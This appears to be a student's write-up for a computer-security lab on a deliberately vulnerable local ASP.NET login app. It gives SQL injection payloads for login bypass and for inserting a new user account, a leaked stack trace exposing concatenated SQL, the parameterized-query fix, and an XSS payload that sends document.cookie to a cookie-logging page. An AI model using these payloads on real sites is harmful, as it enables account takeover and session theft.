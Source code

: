 # Task 1

' or '1'='1


# Task 2

After inserting wrong SQL injection we get part of source code that caused exception.

http://localhost:49834/login.aspx


Server Error in '/' Application.
Incorrect syntax near 'wrong'.
Unclosed quotation mark after the character string '" ---' AND Password='''.
Description: An unhandled exception occurred during the execution of the current web request. Please review the stack trace for more information about the error and where it originated in the code.

Exception Details: System.Data.SqlClient.SqlException: Incorrect syntax near 'wrong'.
Unclosed quotation mark after the character string '" ---' AND Password='''.

Source Error:

```
Line 25:             SqlCommand sqlc = new SqlCommand("SELECT Record FROM Table_Users WHERE Username='" + username + "' AND Password='" + password + "'");
Line 26:             sqlc.Connection = conn;
Line 27:             SqlDataReader sdr = sqlc.ExecuteReader();
Line 28:             if (sdr.HasRows == false)
Line 29:             {
```

Source File: 
```E:\EDA263_Computer-Security\EDA263_CODE\Lab4\cs_lab4\myWebApplication\SQLaccess.cs    Line: 27
```

Stack Trace:

```
[SqlException (0x80131904): Incorrect syntax near 'wrong'.
Unclosed quotation mark after the character string '" ---' AND Password='''.]
   System.Data.SqlClient.SqlConnection.OnError(SqlException exception, Boolean breakConnection, Action`1 wrapCloseInAction) +2444190
   System.Data.SqlClient.SqlInternalConnection.OnError(SqlException exception, Boolean breakConnection, Action`1 wrapCloseInAction) +5775712
   System.Data.SqlClient.TdsParser.ThrowExceptionAndWarning(TdsParserStateObject stateObj, Boolean callerHasConnectionLock, Boolean asyncClose) +285
   System.Data.SqlClient.TdsParser.TryRun(RunBehavior runBehavior, SqlCommand cmdHandler, SqlDataReader dataStream, BulkCopySimpleResultSet bulkCopyHandler, TdsParserStateObject stateObj, Boolean& dataReady) +4169
   System.Data.SqlClient.SqlDataReader.TryConsumeMetaData() +58
   System.Data.SqlClient.SqlDataReader.get_MetaData() +89
   System.Data.SqlClient.SqlCommand.FinishExecuteReader(SqlDataReader ds, RunBehavior runBehavior, String resetOptionsString, Boolean isInternal, Boolean forDescribeParameterEncryption) +409
   System.Data.SqlClient.SqlCommand.RunExecuteReaderTds(CommandBehavior cmdBehavior, RunBehavior runBehavior, Boolean returnStream, Boolean async, Int32 timeout, Task& task, Boolean asyncWrite, Boolean inRetry, SqlDataReader ds, Boolean describeParameterEncryptionRequest) +2127
   System.Data.SqlClient.SqlCommand.RunExecuteReader(CommandBehavior cmdBehavior, RunBehavior runBehavior, Boolean returnStream, String method, TaskCompletionSource`1 completion, Int32 timeout, Task& task, Boolean& usedCache, Boolean asyncWrite, Boolean inRetry) +911
   System.Data.SqlClient.SqlCommand.RunExecuteReader(CommandBehavior cmdBehavior, RunBehavior runBehavior, Boolean returnStream, String method) +64
   System.Data.SqlClient.SqlCommand.ExecuteReader(CommandBehavior behavior, String method) +240
   System.Data.SqlClient.SqlCommand.ExecuteReader() +99
   myWebApplication.SQLaccess.checkUserPass(String username, String password) in E:\EDA263_Computer-Security\EDA263_CODE\Lab4\cs_lab4\myWebApplication\SQLaccess.cs:27
   myWebApplication.login.submit_Click(Object sender, EventArgs e) in E:\EDA263_Computer-Security\EDA263_CODE\Lab4\cs_lab4\myWebApplication\login.aspx.cs:21
   System.Web.UI.WebControls.Button.OnClick(EventArgs e) +9815206
   System.Web.UI.WebControls.Button.RaisePostBackEvent(String eventArgument) +204
   System.Web.UI.WebControls.Button.System.Web.UI.IPostBackEventHandler.RaisePostBackEvent(String eventArgument) +12
   System.Web.UI.Page.RaisePostBackEvent(IPostBackEventHandler sourceControl, String eventArgument) +15
   System.Web.UI.Page.RaisePostBackEvent(NameValueCollection postData) +35
   System.Web.UI.Page.ProcessRequestMain(Boolean includeStagesBeforeAsyncPoint, Boolean includeStagesAfterAsyncPoint) +1639


Version Information: Microsoft .NET Framework Version:4.0.30319; ASP.NET Version:4.7.2633.0 
```

# Task 3

- With the information you found in the debugging output, what can you do? 
- Can you create a new account without having administrative privileges? 
- How did you do it?

```
SqlCommand sqlc = new SqlCommand("SELECT Record FROM Table_Users WHERE Username='" + username + "' AND Password='" + password + "'");
```

Comment will do nothing:
```
`--`

'; ... ;-- 

"SELECT Record FROM Table_Users WHERE Username=''; ... ;-- ' AND Password=''"

'; INSERT INTO Table_Users (Username, Password) VALUES ('adminxxx','adminxxx') ;-- 

' except CREATE TABLE Table_Users (Username varchar(30), Password varchar(30)) ; -- 
```

# Task 4
```
//Task 4: uncomment here
SqlCommand sqlc = new SqlCommand("SELECT Record FROM Table_Users WHERE Username=@username AND Password=@password");
sqlc.Parameters.AddWithValue("@username", username);
sqlc.Parameters.AddWithValue("@password", password);
```
# Task 5

Cross-site scripting:

Go to feedback and upload:
```
%3cscript>document.write('%3cimg src="http://localhost:49834/WriteCookie.aspx?Cookie='%2bdocument.cookie%2b'">');%3c/script>
```


